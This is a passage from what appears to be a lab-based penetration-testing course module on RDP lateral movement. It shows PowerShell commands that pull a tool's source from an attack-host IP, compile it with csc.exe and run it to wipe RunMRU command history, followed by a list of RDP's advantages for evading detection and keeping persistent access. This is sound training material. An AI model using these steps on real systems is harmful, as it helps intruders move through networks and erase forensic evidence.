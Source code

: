 <p><code>SharpRDP</code> uses Microsoft run to execute commands, we can use <a href="https://github.com/0xthirteen/CleanRunMRU">CleanRunMRU</a> to clean all command records. To compile the tool we can use the built-in Microsoft <a href="https://learn.microsoft.com/en-us/dotnet/csharp/language-reference/compiler-options/">csc</a> compiler tool. Let's first transfer CleanRunMRU's <code>Program.cs</code> file from our attack host into the target computer:</p>
<pre><code class="language-powershell-session">PS C:\Tools&gt; wget -Uri http://10.10.14.207/CleanRunMRU/CleanRunMRU/Program.cs -OutFile CleanRunMRU.cs
</code></pre>
<p>Now we can use <code>csc.exe</code> to compile it:</p>
<pre><code class="language-powershell-session">PS C:\Tools&gt; C:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe .\CleanRunMRU.cs
Microsoft (R) Visual C# Compiler version 4.7.3190.0
for C# 5
Copyright (C) Microsoft Corporation. All rights reserved.

This compiler is provided as part of the Microsoft (R) .NET Framework, but only supports language versions up to C# 5, which is no longer the latest version. For compilers that support newer versions of the C# programming language, see http://go.microsoft.com/fwlink/?LinkID=533240
</code></pre>
<p>Now we can use <code>CleanRunMRU.exe</code> to clear all commands:</p>
<pre><code class="language-powershell-session">PS C:\Tools&gt; .\CleanRunMRU.exe  clearall
HKCU:Software\Microsoft\Windows\CurrentVersion\Explorer\RunMRU
[+] Cleaned all RunMRU values
</code></pre>
<h2>Advantages of RDP for Lateral Movement</h2>
<p>RDP provides several advantages for lateral movement, making it a preferred method for attackers in certain scenarios. Some of the key advantages include:</p>
<ul>
<li>
<code>Evade Detection</code>: RDP traffic is common in business environments, making it less likely to raise suspicion.</li>
<li>
<code>Non-Admin Access</code>: RDP access does not necessarily require administrative rights; a non-admin user can also have RDP access.</li>
<li>
<code>Persistent Access</code>: Once a foothold is established, RDP can provide persistent access to the network.</li>
</ul>
<h2>Conclusion</h2>
<p>RDP is a powerful tool for lateral movement, offering several advantages such as ease of use and evading detection. Understanding how to use and abuse RDP effectively can significantly enhance our lateral movement capabilities. In the next section, we will explore <code>SMB</code>, one of the most common and widely used methods for lateral movement.</p>
<div class="my-3 p-3 vpn-switch-card" id="vpn-switch">
<p class="font-size-14 color-white mb-0">VPN Servers</p>
<p class="font-size-13 mb-0">
<i class="fas fa-exclamation-triangle text-warning"></i><span class="color-white ml-1">Warning:</span> Each
                    time you "Switch",
                    your connection keys are regenerated and you must re-download your VPN connection file.
                </p>
<p class="font-size-13 mb-0">
                    All VM instances associated with the old VPN Server will be terminated when switching to
                    a new VPN server. <br/>
                    Existing PwnBox instances will automatically switch to the new VPN server.</p>
<div class="row mb-3">
<div class="col-12 mt-2">
<div class="d-none justify-content-center vpn-loader">
<div class="spinner-border text-success" role="status">
<span class="sr-only">Switching VPN...</span>
</div>
</div>
<select aria-label="vpn server" class="selectpicker custom-form-control vpnSelector badge-select" title="Select VPN Server">